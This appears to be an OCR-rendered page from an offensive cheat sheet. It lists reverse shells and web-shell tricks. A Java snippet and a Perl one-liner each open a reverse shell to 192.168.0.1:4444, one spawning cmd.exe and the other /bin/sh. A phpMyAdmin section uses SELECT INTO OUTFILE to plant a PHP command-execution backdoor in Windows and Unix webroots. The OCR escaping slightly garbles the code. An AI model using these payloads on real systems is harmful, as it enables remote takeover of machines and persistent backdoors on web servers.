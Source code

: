 

String host="192\.168\.0\.1";
intport=4444;
String cmd="cmd\.exe";
Process p=newProcessBuilder\(cmd\)\.redirectErrorStream\(true\)\.start\(\);Socket s=newSocket\(host,port\);InputStream pi=p\.getInputStream\(\),pe=p\.getErrorStream\(\), si=s\.getInputStream\(\);OutputStream po=p\.getOutputStream\(\),so=s\.getOutputStream\(\);while\(\!s\.isClosed\(\)\)\{while\(pi\.available\(\)\>0\)so\.write\(pi\.read\(\)\);while\(pe\.available\(\)\>0\)so\.write\(pe\.read\(\)\);while\(si\.available\(\)\>0\)po\.write\(si\.read\(\)\);so\.flush\(\);po\.flush\(\);Thread\.sleep\(50\);try\{p\.exitValue\(\);break;\}catch\(Exception e\)\{\}\};p\.destroy\(\);s\.close\(\);



## Perl 




\-\-\- 




### Reverse Shell 



perl \-MIO \-e'use Socket;$ip="192\.168\.0\.1";$port=4444;socket\(S,PF\_INET,SOCK\_STREAM,getprotobyname\("tcp"\)\);if\(connect\(S,sockaddr\_in\($port,inet\_aton\($ip\)\)\)\)\{open\(STDIN,"\>\&S"\);open\(STDOUT,"\>\&S"\);open\(STDERR,"\>\&S"\);exec\("/bin/sh \-i"\);\};'



## PhpmyAdmin  



\-\-\- 


Write a CMD shell into a file with the right permissions\. Issue the following select\. \(Try different paths for different webservers\)


\-\-\- 




### Windows 



SELECT"\<?php system\($\_GET\['cmd'\]\); ?\>" into outfile "C:\\\\xampp\\\\htdocs\\\\backdoor\.php"


\-\-\- 




### Unix 



SELECT"\<?php system\($\_GET\['cmd'\]\); ?\>" into outfile "/var/www/html/shell\.php"